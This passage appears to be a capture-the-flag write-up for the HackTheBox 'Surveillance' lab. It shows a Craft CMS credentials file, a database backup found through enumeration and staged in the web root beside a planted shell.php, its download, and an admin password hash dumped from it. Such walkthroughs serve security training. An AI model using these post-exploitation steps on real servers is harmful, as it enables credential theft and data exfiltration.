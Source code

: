 ```bash
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craftdb
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftCMSPassword2023!
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=

# General settings (see config/general.php)
DEV_MODE=false
ALLOW_ADMIN_CHANGES=false
DISALLOW_ROBOTS=false

PRIMARY_SITE_URL=http://surveillance.htb/
```

Found a backup file after some enumeration.

```bash
www-data@surveillance:~/html/craft/storage/backups$ ls
surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

Copied the file over to the webserver and download the file.

```bash
www-data@surveillance:~/html/craft/web$ cp /var/www/html/craft/storage/backups/surveillance--2023-10-17-202801--v4.4.14.sql.zip .
www-data@surveillance:~/html/craft/web$ ls
cpresources
css
fonts
images
img
index.php
js
shell.php
surveillance--2023-10-17-202801--v4.4.14.sql.zip
web.config
```

```bash
$ wget http://surveillance.htb/surveillance--2023-10-17-202801--v4.4.14.sql.zip
$ unzip surveillance--2023-10-17-202801--v4.4.14.sql.zip
Archive:  surveillance--2023-10-17-202801--v4.4.14.sql.zip
  inflating: surveillance--2023-10-17-202801--v4.4.14.sql
$  cat surveillance--2023-10-17-202801--v4.4.14.sql
-- MariaDB dump 10.19  Distrib 10.6.12-MariaDB, for debian-linux-gnu (x86_64)
--
...
LOCK TABLES `users` WRITE;
/*!40000 ALTER TABLE `users` DISABLE KEYS */;
set autocommit=0;
INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
/*!40000 ALTER TABLE `users` ENABLE KEYS */;
UNLOCK TABLES;
commit;
...
```
